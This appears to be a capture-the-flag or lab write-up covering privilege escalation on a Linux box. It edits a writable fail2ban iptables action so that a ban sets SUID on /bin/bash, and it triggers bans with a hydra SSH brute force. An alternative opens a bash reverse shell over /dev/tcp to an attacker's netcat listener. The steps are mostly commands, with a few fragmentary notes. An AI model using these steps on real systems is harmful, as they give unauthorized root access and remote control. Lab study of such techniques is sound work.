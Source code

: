 Before to do that, we can go to `/etc/fail2ban/jail.conf`. We can see that we have `maxretry = 5` and `ssh`.

We can execute shell by leveraging fail2ban blacklist. Do this process fast, the folder is reset regularly.
```
cp iptables-multiport.conf iptables-multiport.conf.bak
rm iptables-multiport.conf # specify y
cp iptables-multiport.conf.bak iptables-multiport.conf

which bash

vi iptables-multiport.conf
actionban = chmod +s /bin/bash
...
actionunban = chmod +s /bin/bash


# generate bruteforce ssh
hydra -l ngawur -P /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 10.10.11.166 ssh -v -I

# on success
bash -p
```
Notes:
- You have to specify `y` in `rm: remove write-protected regular file 'iptables-multiport.conf'? y`, or else the file isn't deleted.
- `bash -p` is not a proper root shell


> &! non match?
> /dev/shm/ ?
> bash -i >& /dev/tcp/10.10.14.8/4444 0>&1

## Alternatives
```
# change actionban
actionban = /tmp/ban_me.sh

# create ban_me.sh
vi /dev/shm/ban_me.sh

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.11/4444 0>&1



# fire up netcat listener on your computer
nc -lnvp 4444


# change 
chmod +x ban_me.sh

# test it
/dev/shm/ban_me.sh

# restart the service
sudo /etc/init.d/fail2ban restart

# generate bruteforce
hydra -l ngawur -P /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 10.10.11.166 ssh -v -I
```